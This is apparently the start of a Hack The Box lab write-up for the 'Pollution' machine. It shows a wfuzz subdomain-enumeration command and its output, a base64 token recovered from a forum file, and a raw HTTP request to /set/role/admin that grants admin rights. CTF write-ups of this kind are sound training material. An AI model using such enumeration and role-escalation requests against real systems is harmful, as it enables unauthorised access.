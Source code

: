 **SUBDOMAIN ENUMERATION**

~~~
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hc 400,404,403,200 -H "Host: FUZZ.collect.htb" -u http://collect.htb -t 100
~~~

~~~
┌─[mr_g0d@parrot]─[/media/mr_g0d/MR_G0D(500G/GOD/HTB/MACHINES/pollution]
└──╼ $wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hc 400,404,403,200 -H "Host: FUZZ.collect.htb" -u http://collect.htb -t 100 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://collect.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                              
=====================================================================

000002341:   401        14 L     54 W       469 Ch      "developers"                                                         
000000023:   200        336 L    1220 W     14098 Ch    "forum"

Total time: 21.82478
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 228.5932

~~~~

![[forum collect htb.png]]


![[developers basicauth.png]]


**We got some hints regarding Pollution API**

![[pollution api hint.png]]

While arounding with forum , we will got one file names proxy_list.txt for that we have  to register a account in the forum.collect.htb to download a file.

when i check the file ...There are some data which is encoded in base64

when i decoded i got some token and found url's /set/role/admin

~~~
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
~~~